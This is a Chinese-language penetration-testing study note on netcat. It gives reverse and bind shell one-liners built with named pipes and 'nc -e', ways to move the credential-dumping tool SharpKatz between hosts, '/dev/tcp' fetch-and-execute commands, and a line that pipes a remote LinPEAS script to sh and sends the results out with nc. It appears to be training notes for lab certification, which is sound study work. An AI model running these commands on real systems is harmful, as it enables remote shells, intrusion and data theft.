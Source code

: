 ```yaml
---
tags:
  - 渗透/利用
  - 渗透/CPTS
  - IT/Linux
---
```

## nc

> Netcat, ncat, or nc

> The original Netcat was [released](http://seclists.org/bugtraq/1995/Oct/0028.html) by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce [Ncat](https://nmap.org/ncat/), a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.
> https://nmap.org/ncat/

可用 `-e` 选项（在服务端、客户端都可用）。但不安全（GAPING_SECURITY_HOLE）所以现在大部分 `netcat` 没有这个功能了。（**但Windows中nc64有妙用**）

原理：连接成功后执行指定命令。将可执行文件的stdin、stdout和stderr都重定向到指定TCP/UDP端口而不是默认控制台。


### [[命名管道]]派生


两种方法，取决于nc是否能用 `-e` 选项。

#### 1.Without GAPING_SECURITY_HOLE

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.13.17.96 4444 >/tmp/f`

- sh的 `-i` 指“交互模式”
- 将管道 `/tmp/f` 的内容交给bash执行，然后给nc发送命令，然后结果又交给管道 `/tmp/f`

#### 2.With GAPING_SECURITY_HOLE

`nc 10.13.17.96 4444 -e /bin/sh`



THM例：
- 反弹shell：`mkfifo /tmp/f; nc <攻击方IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- 绑定shell：`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

> [!note] 理解
> 首先，在/tmp/f创建一个命名管道；然后，开启nc侦听器，将“侦听器的输入”连到“命名管道的输出”。  
> 关键，将nc侦听器的输出（我们发送的命令）直接通过管道传到sh，将 stderr 输出流发送到 stdout，并将 stdout 本身发送到命名管道的输入，从而完成循环。

> - [https://tryhackme.com/room/introtoshells](https://tryhackme.com/room/introtoshells)  
> - [https://www.linuxjournal.com/article/2156](https://www.linuxjournal.com/article/2156)
> - [https://www.ryotosaito.com/blog/?p=292](https://www.ryotosaito.com/blog/?p=292)


成功建立——但是不稳，比如无法使用tab、方向键、ctrl c还会断掉——称为“dumb shell”。升级为[[反弹shell#交互式|交互shell]]。



## Windows

powershell编码的替代品：[PowerCat](https://github.com/besimorhino/powercat)



## 文件传输

如果目标机没有curl、wget但是有nc。

**例：从hostA传递到hostB目标（下面nc指原始版本的Netcat）**

### 方法一

hostB监听，接收文件并输出。
```bash
# hostB:
nc -lvnp 8000 > SharpKatz.exe
## ncat的话要用 `--recv-only` 指定文件传输完成后关闭连接
ncat -l -p 8000 --recv-only > SharpKatz.exe

# hostA:
## `-q 0` 将告诉 Netcat 在完成后关闭连接
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
## ncat的话用 `--send-only`
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```


### 方法二

hostA监听（在hostB阻止入站流量时好用），并将文件作为输入，等待连接方将其取走。
```bash
# hostA:
sudo nc -lvnp 443 -q 0 < SharpKatz.exe
## ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe

# hostB:
nc 192.168.49.128 443 > SharpKatz.exe
## ncat
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```


### 方法三 - 伪设备

> If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).
> Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

hostA监听。同[[Netcat#方法二|方法二]]，不过hostB没有nc的话可以用伪设备获取数据。
```bash
# hostA:
sudo nc -l -p 443 -q 0 < SharpKatz.exe
## ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe

# hostB:
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
## 或者直接执行
cat < /dev/tcp/192.168.49.128/443 | sh
```






## tricks

### 传输枚举结果

- 攻击机，监听81端口，等待目标机的运行结果传回：`sudo nc -lvnp 81 | tee linpeas.txt`
- 目标机，执行脚本后nc传输到81端口：`curl <kali-IP>/linpeash.sh | sh |nc <kali-IP> 81`
	- 包含技巧：`curl <kali-IP>/linpeash.sh |sh` 直接执行远程脚本。类比[[powershell#^368d24|powershell-下载脚本、字符串]]
- LinPEAS结果的阅读方式：`less -r linpeas.txt`

